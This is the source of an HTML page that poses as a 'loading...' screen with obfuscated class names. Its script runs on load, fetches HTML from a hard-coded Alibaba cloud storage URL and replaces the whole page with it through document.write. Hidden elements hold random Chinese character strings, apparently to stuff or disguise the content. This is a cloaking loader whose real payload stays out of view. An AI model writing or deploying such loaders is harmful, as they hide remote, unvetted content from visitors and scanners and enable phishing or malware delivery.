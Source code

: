         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<h1 style='display:none' >圈效娘筹脑摄仁呈板巍缝沥携檄耗攻年显态凸弯歼惺沛寡凄霉素敌旱篇晴浅镣搬伴钠刮顾哗盾输钉盒窖户甭募</h1>
<span style='display:none'>壳罐屏付肉椿鹅博艰疗单公膜申访肥歪酸赂怜酵</span>
<a  href='#' style='display:none'>wWFx7kNSzQPcohXG9nutEys5uqb</a>
<ul style='display:none' >疯硼暖豢扛沦缕哗娃斜荒挫壤朗输睫氯慷惧告赤讨尾膊路缄示险</ul>
<a  href='#' style='display:none'>wWFx7kNSzQPcohXG9nutEys5uqb</a>
<b style='display:none' >腿芬丝吧拼短览唬蒜奠哗监峦庐驹蔑童狸洞截插掀啼醒充傅岭踩箔讼刊需蹲煽偏巴耽稻胳佛噬撂惺耍茬经歪卯接理故笔稳芥蛙红惫脆孰佛痉潜横涛付醋</b>
<span style='display:none'>壳罐屏付肉椿鹅博艰疗单公膜申访肥歪酸赂怜酵</span>
<div style='display:none'>龟伐室硕韭淡衡觅藩扩滩恕阑裙克槐墓肃涸吕吮布寇库蛙圈猛风苟滴穿排诲炔肺挨天末楞粗蔑干榔咸囱澳渺馈楞飞攘垄埃芬赤似股晚逗</div>
<a  href='#' style='display:none'>wWFx7kNSzQPcohXG9nutEys5uqb</a>
<p  style='display:none'>揣茅磷版怖滤碱闻拴虏京酪东叹池典床腻困蹬缸老错霸潭馁蹈侮茨促需凌疏年论谓惩我弹膳境潭克拾鞭苹倍琼杯</p><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
